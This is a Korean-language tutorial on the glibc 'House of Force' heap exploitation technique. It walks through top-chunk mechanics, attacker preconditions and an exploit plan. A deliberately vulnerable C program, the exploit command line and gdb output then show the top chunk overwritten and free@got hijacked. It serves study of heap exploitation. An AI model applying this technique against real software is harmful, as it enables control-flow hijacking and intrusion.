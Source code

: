 # **House_of_Force**

### **Top Chunk**
 
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc,char *argv[]){
	int size;
	char *buf1, *buf2, *buf3;
	
	buf1 = malloc(256);
	buf2 = malloc(256);
	buf3 = malloc(256);

	free(buf3);
	free(buf2);
	free(buf1);
}
```

* 일반적으로 Heap 영역에 할당되는 0x21000에서 malloc하여 할당된 chunk size를 뺀 값이 Top Chunk의 크기이다. 

```
0x21000 - 0x110(malloc) = 0x20ef0
0x20ef0 - 0x110(malloc) = 0x20de0
0x20de0 - 0x110(malloc) = 0x20cd0
```

* Top Chunk는 재사용 가능한 Chunk가 없고, Top Chunk의 크기가 요청 크기보다 작을 경우 Top Chunk에서 나눠서 할당을 해준다.
* Top Chunk에 인접한 Chunk가 free되면 병합하는데 fastbin의 경우 병합에서 제외된다.

```
0x20cd0 + 0x110(free) = 0x20de0
0x20de0 + 0x110(free) = 0x20ef0
0x20ef0 + 0x110(free) = 0x21000
```

## **Conditions**

* 공격자에 의해 Top Chunk를 덮어쓸 수 있어야 함(0xffffffffffffffff)
* 공격자에 의해 할당되는 Heap 크기를 제어할 수 있어야 함
* 공격자에 의해 할당된 Chunk 영역에 값을 저장할 수 있어야 함

## **Exploit Plan**

1. Heap 영역 생성
1. Top Chunk 변조
1. 계산된 값을 malloc 인자 값으로 전달해 메모리를 할당
    * Target Address - Allocated Chunk Header Size(16 or 8) - Top Chunk Address
1. 다시 malloc 호출
    * 공격자가 원하는 영역이 할당됨

## **Proof of Concept**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
 
int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) return;
 
        buf1 = malloc(256);
        strcpy(buf1, argv[1]);
 
        buf2 = malloc(strtoul(argv[2], NULL, 16));
 
        buf3 = malloc(256);
        strcpy(buf3, argv[3]);
 
        free(buf3);
        free(buf2);
        free(buf1);
 
        return 0;
}
```

* argv1 Overflow를 통해 Top Chunk를 0xffffffffffffffff로 변조한다.

```
gdb-peda$ heapbase
heapbase : 0x602000
gdb-peda$ x/24gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000111
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4141414141414141	0x4141414141414141
0x602040:	0x4141414141414141	0x4141414141414141
0x602050:	0x4141414141414141	0x4141414141414141
0x602060:	0x4141414141414141	0x4141414141414141
0x602070:	0x4141414141414141	0x4141414141414141
0x602080:	0x4141414141414141	0x4141414141414141
0x602090:	0x4141414141414141	0x4141414141414141
0x6020a0:	0x4141414141414141	0x4141414141414141
0x6020b0:	0x4141414141414141	0x4141414141414141
0x6020c0:	0x4141414141414141	0x4141414141414141
0x6020d0:	0x4141414141414141	0x4141414141414141
0x6020e0:	0x4141414141414141	0x4141414141414141
0x6020f0:	0x4141414141414141	0x4141414141414141
0x602100:	0x4141414141414141	0x4141414141414141
0x602110:	0x4141414141414141	0xffffffffffffffff <- Top Chunk

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602110 (size : 0xfffffffffffffff8) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* "free@got(0x601018)" - "Chunk header size(0x10)" - "Top chunk address(0x602118)" - 0x8 = 0xffffeee8  
    * -0x8을 한 이유 -> Heap 영역은 0x*0 단위로 할당하기 때문
* argv2에 0xffffeee8을 입력하여 해당 크기만큼 malloc을 해준다.
* argv3에 BBBBBBBBCCCCCCCC를 입력하면 free@got가 변조된다.

```
gdb-peda$ r $(python -c 'print "A"*0x108+"\xff"*8') 0xffffffffffffeee8 BBBBBBBBCCCCCCCC

gdb-peda$ x/24gx 0x601018-0x10
0x601008:	0x0000000000000111	0x4242424242424242
0x601018:	0x4343434343434343	0x00007ffff7ab2900
0x601028:	0x00007ffff7a2d740	0x00007ffff7a91130
0x601038:	0x00007ffff7a483f0	0x0000000000000000
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Force>
<https://hackstoryadmin.tistory.com/entry/What-is-heap-part1>